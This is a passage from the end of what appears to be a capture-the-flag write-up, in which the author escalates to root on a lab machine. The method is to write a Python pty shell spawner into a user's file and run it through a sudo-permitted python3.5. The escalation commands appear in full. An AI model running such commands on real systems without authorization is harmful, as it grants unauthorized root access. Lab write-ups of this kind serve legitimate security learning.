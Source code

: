 ```
```echo ‘import pty; pty.spawn(“/bin/sh”)’ > /home/veronica/base.py``` boom done now let run it with ```sudo /usr/bin/python3.5 /home/veronica/base.py``` .

![Image](https://miro.medium.com/max/700/1*pFaEqtrHJi5ti64mCjOuYg.png)

Booooom and we are root hahahahaha box rooted.

![Image](https://miro.medium.com/max/700/1*LTXsoS8OWLpZzv1tAFwmtw.png)

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>


